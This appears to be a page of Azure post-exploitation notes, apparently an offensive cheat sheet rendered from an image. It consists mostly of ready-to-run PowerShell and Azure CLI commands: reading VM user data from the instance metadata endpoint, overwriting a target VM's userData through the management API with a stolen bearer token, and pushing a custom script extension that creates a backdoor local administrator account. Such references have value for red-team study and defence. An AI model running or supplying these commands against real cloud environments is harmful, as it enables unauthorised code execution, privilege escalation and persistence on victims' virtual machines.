 #### Get context of current user
```
az ad signed-in-user show
Get-AzContext
```

#### Check UserData
```
$userData = Invoke-RestMethod -Headers @{"Metadata"="true"} -Method GET -Uri "http://169.254.169.254/metadata/instance/compute/userData?api-version=2021-01-01&format=text";[System.Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($userData))
```

#### Modify UserData
```
## It is also possible to modify user data with permissions "Microsoft.Compute/virtualMachines/write" on the target VM. Any automation or scheduled task reading commands from user data can be abused!

$data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("whoami"))
$accessToken = (Get-AzAccessToken).Token
$Url = "https://management.azure.com/subscriptions/b413826f-108d-4049-8c11-d52d5d388768/resourceGroups/RESEARCH/providers/Microsoft.Compute/virtualMachines/jumpvm?api-version=2021-07-01"
$body = @(
@{
location = "Germany West Central"
properties = @{
userData = "$data"
}
}
) | ConvertTo-Json -Depth 4

$headers = @{
Authorization = "Bearer $accessToken"
}

## Execute Rest API Call

$Results = Invoke-RestMethod -Method Put -Uri $Url -Body $body -Headers $headers -ContentType 'application/json'
```

#### Check VM Extensions
```
Get-AzVMExtension -ResourceGroupName <RESEARCH GROUP NAME> -VMName <VM NAME>
```

#### Set VM Extensions
```
#Following permissions are required to create a custom script extension and read the output: "Microsoft.Compute/virtualMachines/extensions/write" and "Microsoft.Compute/virtualMachines/extensions/read"

Set-AzVMExtension -ResourceGroupName <RESEARCH GROUP NAME> -VMName <VM NAME> -ExtensionName ExecCmd -Location germanywestcentral -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users <NEW USER> <PASSWORD> /add /Y; net localgroup administrators <NEW USER> /add /Y"}'
```
